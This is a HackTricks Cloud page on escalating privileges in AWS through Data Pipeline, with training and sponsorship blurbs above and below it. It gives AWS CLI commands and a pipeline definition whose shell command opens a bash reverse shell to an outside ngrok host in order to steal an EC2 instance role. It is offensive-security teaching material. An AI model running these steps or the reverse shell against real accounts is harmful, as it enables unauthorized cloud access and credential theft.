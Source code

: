 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

For more info about datapipeline check:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Users with these **permissions can escalate privileges by creating a Data Pipeline** to execute arbitrary commands using the **permissions of the assigned role:**

```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```

After pipeline creation, the attacker updates its definition to dictate specific actions or resource creations:

```json
{
     "objects": [
     {
         "id" : "CreateDirectory",
         "type" : "ShellCommandActivity",
         "command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
         "runsOn" : {"ref": "instance"}
     },
     {
         "id": "Default",
         "scheduleType": "ondemand",
         "failureAndRerunMode": "CASCADE",
         "name": "Default",
         "role": "assumable_datapipeline",
         "resourceRole": "assumable_datapipeline"
     },
     {
         "id" : "instance",
         "name" : "instance",
         "type" : "Ec2Resource",
         "actionOnTaskFailure" : "terminate",
         "actionOnResourceFailure" : "retryAll",
         "maximumRetries" : "1",
         "instanceType" : "t2.micro",
         "securityGroups" : ["default"],
         "role" : "assumable_datapipeline",
         "resourceRole" : "assumable_ec2_profile_instance"
     }]
}
```

{% hint style="info" %}
Note that the **role** in **line 14, 15 and 27** needs to be a role **assumable by datapipeline.amazonaws.com** and the role in **line 28** needs to be a **role assumable by ec2.amazonaws.com with a EC2 profile instance**.

Moreover, the EC2 instance will only have access to the role assumable by the EC2 instance (so you can only steal that one).
{% endhint %}

```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
    --pipeline-definition file:///pipeline/definition.json
```

The **pipeline definition file, crafted by the attacker, includes directives to execute commands** or create resources via the AWS API, leveraging the Data Pipeline's role permissions to potentially gain additional privileges.

**Potential Impact:** Direct privesc to the ec2 service role specified.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
